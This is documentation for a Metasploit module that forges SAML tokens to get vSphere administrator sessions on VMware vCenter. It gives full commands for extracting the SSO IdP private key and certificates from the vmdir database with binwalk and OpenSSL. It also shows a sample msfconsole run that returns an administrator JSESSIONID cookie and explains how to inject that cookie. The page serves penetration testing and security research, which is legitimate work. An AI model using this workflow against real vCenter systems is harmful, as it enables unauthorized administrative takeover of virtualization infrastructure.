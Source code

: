 This module forges valid SAML credentials for vCenter server using the vCenter SSO IdP certificate,
IdP private key, and VMCA root certificate as input objects; you must also  provide the vCenter SSO
domain name and vCenter FQDN. Successful execution returns a session cookie for the `/ui` path that
grants access to the SSO domain as a vSphere administrator. The IdP trusted certificate chain can be
retrieved using Metasploit vCenter post-exploitation modules, or extracted manually from the vmdir
database file at `/storage/db/vmware-vmdir/data.mdb` using `binwalk`. This module is largely based
on information published by Zach Hanley at Horizon3:

https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/

## Vulnerable Application
This module is tested against the vCenter appliance but will probably work against Windows instances.
It has been tested against vCenter appliance versions 6.5, 6.7, and 7.0, and will work on vCenter 7.0
Update 3 which introduced additional validation mechanisms to the SSO login process (RelayState). It
will probably work against other versions of vCenter appliance down to vCenter 6.0 but has not been
tested at versions below 6.5.

## Verification Steps
This module must be executed while the target vCenter server is reachable over the network. You must
already possess the SSO IdP certificate and key, and the VMCA certificate. These can be acquired by
using a Metasploit vCenter post-exploitation module (with access to a live system with root creds)
or by extracting the data manually from the vmdir database file using binwalk (with access to a
vCenter backup). By default, the target domain `vsphere.local` and target username `administrator`
are used; the target domain may be different depending on the scenario and should be adjusted
accordingly.

1. Acquire the vCenter IdP certificate and private key, and VMCA certificate (see below)
2. Start msfconsole
3. Do: `use auxiliary/admin/vmware/vcenter_forge_saml_token.rb`
4. Do: `set rhosts <vCenter appliance IPv4 or FQDN>`
5. Do: `set vc_fqdn <vCenter appliance FQDN>`
6. Do: `set vc_idp_cert <path to IdP cert>`
7. Do: `set vc_idp_key <path to IdP key>`
8. Do: `set vc_vmca_cert <path to VMCA cert>`
9. Verify that the values for `domain` and `username` are sane
10. Do: `run`
11. Open a web browser and navigate to the vCenter admin UI for the target server (`https://<vcenterfqdn>/ui`)
12. Apply the acquired session cookie for the vCenter host at the `/ui` path

## Options
**DOMAIN**

The vSphere SSO domain. By default this is `vsphere.local`.

**USERNAME**

The target user within the SSO domain. This must be a valid user as vCenter will happily issue
SAML assertions for invalid usernames, but the provided session tokens will not function. There
should be no reason to modify the target user from the default `administrator` in most scenarios.

**RHOSTS**

The vCenter appliance IPv4 address or DNS FQDN. This must be reachable over HTTPS for the module
to function.

**VC_FQDN**

The fully qualified DNS name of the vCenter appliance; this must be present in the Issuer element
of the assertion for the module to function.

**VC_IDP_CERT**

The filesystem path to the PEM-formatted vCenter SSO IdP certificate.

**VC_IDP_KEY**

The filesystem path to the PEM-formatted vCenter SSO IdP private key.

**VC_VMCA_CERT**

The filesystem path to the PEM-formatted vCenter VMCA certificate.

## Scenarios
### Extracting the vSphere SSO certificates
The vmdir database is hosted on the appliance at `/storage/db/vmware-vmdir/data.mdb` - it is possible
to extract the IdP keys from this file presuming you have root access to the appliance, or read access
to a vCenter backup repository. Copy the file to the local system, and use binwalk to scan for the
private key material.

`binwalk --signature ./data.mdb`

vSphere vmdir stores the IdP secrets without encryption within the database. There are many x509
certificates within the vmdir database but there should only be two private keys; you are looking for
two x509 v3 certificates in close proximity to two PKCS#1 RSA private keys in DER format. Below is an
example of the target location from a binwalk signature scan of an example vmdir database.

```
[...]
8839882       0x86E2CA        Certificate in DER format (x509 v3), header length: 4, sequence length: 991
8840880       0x86E6B0        Certificate in DER format (x509 v3), header length: 4, sequence length: 1079
8841970       0x86EAF2        Private key in DER format (PKCS header length: 4, sequence length: 1215
8841996       0x86EB0C        Private key in DER format (PKCS header length: 4, sequence length: 1189
[...]
```

The target data starts at offset `8839882` in this example. Adding the sequence lengths together we get `4474` bytes, thus:

`binwalk --offset=8839882 --length=4474 --dd=".*" ./data.mdb`

Will extract the target files.

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
8839882       0x86E2CA        Certificate in DER format (x509 v3), header length: 4, sequence length: 991
8840880       0x86E6B0        Certificate in DER format (x509 v3), header length: 4, sequence length: 1079
8841970       0x86EAF2        Private key in DER format (PKCS header length: 4, sequence length: 1215
8841996       0x86EB0C        Private key in DER format (PKCS header length: 4, sequence length: 1189

$ ls -l ./_data.mdb.extracted/
total 16
-rwxrwxrwx 1 cs137 cs137  995 Apr 21 06:55 86E2CA
-rwxrwxrwx 1 cs137 cs137 1083 Apr 21 06:55 86E6B0
-rwxrwxrwx 1 cs137 cs137 1219 Apr 21 06:55 86EAF2
-rwxrwxrwx 1 cs137 cs137 1193 Apr 21 06:55 86EB0C
```

These should be the VMCA root certificate and SSO IdP certificate and private key. Note that vmdir appears to store two
copies of the IdP private key, presumably to allow the key to be rotated if required. For a vanilla install of vCenter,
both private keys will be identical. To determine which one is which, first compare the certificate CN using OpenSSL. The
SSO IdP credential should have a common name of `ssoserverSign`.

```
openssl x509 -inform der -in ./_data.mdb.extracted/86E2CA -noout -subject
subject=CN = ssoserverSign

openssl x509 -inform der -in ./_data.mdb.extracted/86E6B0 -noout -subject
subject=CN = CA, DC = vsphere.local, C = US, ST = California, O = vcenter.cesium137.io, OU = VMware Engineering
```

This confirms that `86E2CA` is the IdP certificate, and `86E6B0` is the VMCA certificate. Convert them
to PEM format and rename them for convenience:

```
openssl x509 -inform der -in ./_data.mdb.extracted/86E2CA -outform pem -out ./idp.pem
openssl x509 -inform der -in ./_data.mdb.extracted/86E6B0 -outform pem -out ./vmca.pem
```

To associate  them with their private key, first calculate the SHA-256 digest of the modulus for
both certificates.

```
openssl x509 -in ./idp.pem -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -

openssl x509 -in ./vmca.pem -modulus -noout | sha256sum
432f0244896a3243f46d4a2f7322127a52b891a53b984745c286989c02862a13  -
```

Compare these to the modulus component of the candidate keys to associate them with the corresponding
certificate.

```
openssl rsa -inform der -in ./_data.mdb.extracted/86EAF2 -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -

openssl rsa -inform der -in ./_data.mdb.extracted/86EB0C -modulus -noout | sha256sum
482a9fcb97dfd29b8478c51b394cce8463f04038cdc507957b8a1ee5a99ccb32  -
```

Based on this output we conclude `86EAF2` and `86EB0C` are identical, and share a modulus with the
IdP certificate: either of these can be extracted. Convert the file to PEM format and rename it for
convenience.

```
openssl rsa -inform der -in ./_data.mdb.extracted/86EAF2 -outform pem -out ./idp.key
writing RSA key
```

You should now have `idp.pem`, `idp.key`, and `vmca.pem` in your working directory in PEM format.

### Running the Module
Example run against vCenter appliance version 7.0 Update 3d:

```
msf6 > use auxiliary/admin/vmware/vcenter_forge_saml_token.rb
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set RHOSTS 192.168.100.110
RHOSTS => 192.168.100.110
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_FQDN vcenter.cesium137.io
VC_FQDN => vcenter.cesium137.io
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_IDP_CERT ~/idp.pem
VC_IDP_CERT => ~/idp.pem
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_IDP_KEY ~/idp.key
VC_IDP_KEY => ~/idp.key
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > set VC_VMCA_CERT ~/vmca.pem
VC_VMCA_CERT => ~/vmca.pem
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) > run
[*] Running module against 192.168.100.110

[+] Validated vCenter Single Sign-On IdP trusted certificate chain
[*] HTTP GET => /ui/login ...
[*] HTTP POST => /ui/saml/websso/sso ...
[+] Got valid administrator session token!
[+]     JSESSIONID=61B850134A734E790AC3F2C644E2F7F0; Path=/ui
[*] Auxiliary module execution completed
msf6 auxiliary(admin/vmware/vcenter_forge_saml_token) >
```
### Using the Session Cookie
Inject the acquired session cookie using the method of your choice. The cookie name must be
`JSESSIONID` with the value returned from the auxiliary module, and the path for the cookie
must be set to `/ui`.